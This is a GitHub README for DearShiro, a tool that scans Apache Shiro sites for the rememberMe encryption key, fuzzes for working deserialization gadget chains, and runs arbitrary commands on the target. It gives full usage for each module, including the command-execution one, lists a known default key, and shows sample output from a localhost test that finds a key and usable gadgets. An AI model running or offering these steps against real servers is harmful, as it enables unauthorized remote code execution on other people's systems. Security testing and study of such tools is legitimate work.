 # DearShiro

## Start

**A Simple Shiro Scanner**

**Just for practice**

[中文文档](https://github.com/F4ded/DearShiro/blob/master/README_CH.md)

Done:
- Detect the key
- Detect the available gadget
- Use the gadget to execute command


TODO:
- Graphical tool
- Fix some unknowns bug

The built-in gadget:
- CommonsBeanUtilsNoCC
- CommonsCollectionsK1
- CommonsCollectionsK2
- CommonsCollectionsK3
- CommonsCollectionsK4

## Usage

```python
❯ java -jar dearshiro.jar --help

Usage: <main class> [options]
  Options:
  * -m, --module
      module
  * -b, --baseurl
      baseurl
    -k, --key
      key
      Default: kPH+bIxk5D2deZiIxcaaaA==
    -g, --gadget
      gadget
      Default: NoCC
    -c, --command
      command
      Default: open -a Calculator
    --help


java -jar dearshiro.jar -m {module} -b {baseurl} [-k] [-g] [-c]
# key module 扫描key
java -jar dearshiro.jar -m "key" -b {baseurl}
# dadgetfuzz module 扫描可用gadget
java -jar dearshrio.jar -m "gadgetfuzz" -b {baseurl} -k {key}
# gadgetexec module 使用gadget执行任意命令
java -jar dearshiro.jar -m "gadgetexec" -b {baseurl} -k {key} -g {gadget} -c {command}
```

Simple test on localhost:

```
❯ java -jar dearshiro.jar -m "key" -b "http://127.0.0.1:8000/login.jsp"                                                                              
[+] Test key: 0AvVhmFLUs0KTA3Kprsdag==
[-] Response Code: 200
[+] Test key: kPH+bIxk5D2deZiIxcaaaA==
[-] Response Code: 200
[*] Found Key: kPH+bIxk5D2deZiIxcaaaA==


❯ java -jar dearshiro.jar -m "gadgetfuzz" -b "http://127.0.0.1:8000/login.jsp" -k "kPH+bIxk5D2deZiIxcaaaA=="    
[main] INFO org.reflections.Reflections - Reflections took 18 ms to scan 1 urls, producing 1 keys and 5 values 
[+] Test Gadget: CCK2
[-] Response Code: 200
[+] Test Gadget: NoCC
[-] Response Code: 200
[*] Found Gadget: NoCC
[+] Test Gadget: JRMPClient
[-] Response Code: 200
[+] Test Gadget: CCK1
[-] Response Code: 200
[*] Found Gadget: CCK1
########Available Gadget##########
NoCC
CCK1
########Available Gadget##########

```


